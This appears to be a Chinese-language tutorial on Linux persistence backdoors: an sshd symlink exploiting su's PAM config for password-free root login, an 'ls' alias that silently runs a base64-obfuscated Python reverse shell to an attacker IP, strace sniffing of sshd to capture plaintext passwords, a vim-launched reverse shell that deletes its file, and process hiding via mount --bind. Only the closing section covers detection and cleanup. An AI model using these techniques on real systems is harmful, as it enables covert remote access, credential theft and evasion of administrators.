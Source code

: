 #### sshd软连接后门

`ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345 `

在/usr/loacl目录下创建一个su软连接指向sshd，再临时配置此sshd监听的端口为12345，当开启了PAM验证机制的时候，PAM模块则会搜寻PAM相关设定文件，设定文件一般是在/etc/pam.d/，对应pam文件名即为软连接文件名，当我们建立名为su的软连接，即使用了su的pam配置文件，而su的配置文件中有这样一句话 `auth    sufficient   pam_rootok.so`，对uid为0的root用户无条件通过认证。当我们指定端口为12345时，及使用了su的pam的配置文件，无条件通过认证。

#### 免密公钥

`ssh-keygen -t rsa`

第一次键入保存公私钥的路径，在输入密码时连续两次键入回车即可实现免密的密钥对，将公钥放在对应用户家目录的.ssh，目录下重命名为authorized_keys，将私钥设置为700权限，即可在攻击机上用-i指定私钥从而实现免密登录

#### alias后门

`alias [别名] "[表达式]"`

将ls命令替换为反弹shell

1. alias 不支持参数传递，只有函数才支持参数传递,所以需要用函数将ls的参数传递，否则受害者执行带参数的ls会报错
2. 传统的反弹shell反弹后终端就无响应了，很容易被发现，所以使用python脚本

   ```python
   import os,socket,subprocess;
   ret = os.fork()
   if ret > 0:
       exit()
   else:
       try:
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           s.connect(("192.168.1.4", 8888))
           os.dup2(s.fileno(), 0)
           os.dup2(s.fileno(), 1)
           os.dup2(s.fileno(), 2)
           p = subprocess.call(["/bin/bash", "-i"])
       except Exception as e:
           exit()
   ```

   os.fork()，创建一个子进程，并在父进程中退出，这样子进程就变成了一个孤儿进程，脱离了原来的父进程，可以继续运行，
3. 方便代码的执行，将要执行的python代码base64编码隐藏
4. 注意引号引起的二义性，转义引号

```shell
alias ls="alerts(){ ls $* --color=auto;python3 -c \"import base64,sys;exec(base64.b64decode('aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xLjQiLCA4ODg4KSkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDApCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAxKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMikKICAgICAgICBwID0gc3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9iYXNoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp'))\";};alerts"
```

#### strace后门

```
ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}
```

列出所有的进程，找到含有 `sshd -D`的,并找到其pid

```
root       87517  0.0  0.0   6464  2168 pts/1    R+   23:11   0:00 grep --color=auto sshd -D
默认还有一条进程，所以用grep -v grep过滤
```

```
sshd 是 SSH 守护进程，负责处理 SSH 客户端的连接请求和会话管理，-D表示在前台运行，而不是作为后台进程

sshd -D 的用法适用于调试或测试环境中，因为它将 SSH 守护进程的日志输出直接打印到控制台，方便观察和调试
```

然后同strace跟踪读写操作，并将其错误输出重定向到/tmp/.sshd.log文件，&表示后台运行

```
strace是一个动态跟踪工具，它可以跟踪系统调用的执行
```

然后再读取sshd在登陆时的接收内容，在这部分内容中翻找明文密码

命令如下

```shell
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log
```

#### vim后门

通过vim中的python模块执行python代码，首先将python后门文件放置到当前目录下

```python
import os,socket,subprocess;
ret = os.fork()
if ret > 0:
    exit()
else:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.31.63", 8888))
        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)
        p = subprocess.call(["/bin/bash", "-i"])
    except Exception as e:
        exit()

```

执行命令，并在两秒后删除文件

```shell
(vim -E -c "py3file fork_shell.py"> /dev/null 2>&1) && sleep 2 && rm -f shell.py
```

#### 通过mount-bind隐藏进程

##### 原理

```shell
mount --bind [dir1] [dir2]
```

将前一个目录挂载到后一个目录上，队后一个目录的访问都是对前一个目录的访问

通过命令

```shell
mount --bind null /proc/PID
```

将当前目录的空目录挂载到/proc/PID下，netstat和ps命令都是通过/proc目录输出的，此命令会隐藏真实的进程文件，导致隐藏pid和执行的命令

##### 发现

获取当前系统挂载信息有以下方法

> 1. cat /proc/$$/mountinfo 获取当前挂载信息
> 2. cat /proc/mounts （内核提供， 不易蒙骗）
> 3. 直接执行mount 命令

其中1和2比较靠谱

3是获取/etc/mtab 的内容

> cp /etc/mtab .
> mount —bind /bin /proc/[pid]
> mv . /etc/mtab

这样的话，直接执行mount，就发现不了可以挂载，而1和2却能够发现

##### 排查思路

1. 查看端口，发现可疑端口PID和程序名被隐藏：`netstat -antp`
2. 查看proc目录下的文件

   ```
   drwxrwxr-x  2 i                i                           4096 May 10 20:26 4964
   drwxrwxr-x  2 i                i                           4096 May 10 20:26 4965
   ```

   在 `/proc` 文件系统中，许多文件是虚拟文件，它们不占用磁盘空间，大小为 0 字节，而发生了将空目录挂载到/porc/PID会使其大小为4KB，因为文件系统通常会以某个固定的块大小来存储数据，默认4KB
3. 查看可疑挂载

   ```
   678 679 8:5 /home/i/vim_shell/null /home/i/vim_shell/null rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   650 25 8:5 /home/i/vim_shell/null /proc/4964 rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   677 650 8:5 /home/i/vim_shell/null /proc/4964 rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   680 678 8:5 /home/i/vim_shell/null /home/i/vim_shell/null rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   679 29 8:5 /home/i/vim_shell/null /home/i/vim_shell/null rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   1307 25 8:5 /home/i/vim_shell/null /proc/4965 rw,relatime shared:1 - ext4 /dev/sda5 rw,errors=remount-ro
   ```

   /proc/4964，/proc/4965果然被挂载了
4. 卸载 `sudo umount /proc/4965;sudo umount /proc/4964`并执行 `netstat -antp`查看真实进程:

   ```
   tcp        0      0 192.168.31.172:33486    192.168.31.63:8888      ESTABLISHED 4964/python3 
   ```

   执行 `ps -aux | grep 4964`

   ```
   i@i-virtual-machine:/proc$ 
   i           4964  0.0  0.2  18844  9980 pts/1    S    20:44   0:00 python3 shell.py
   ```
5. 删除shell.py文件，kill后门进程，排查结束
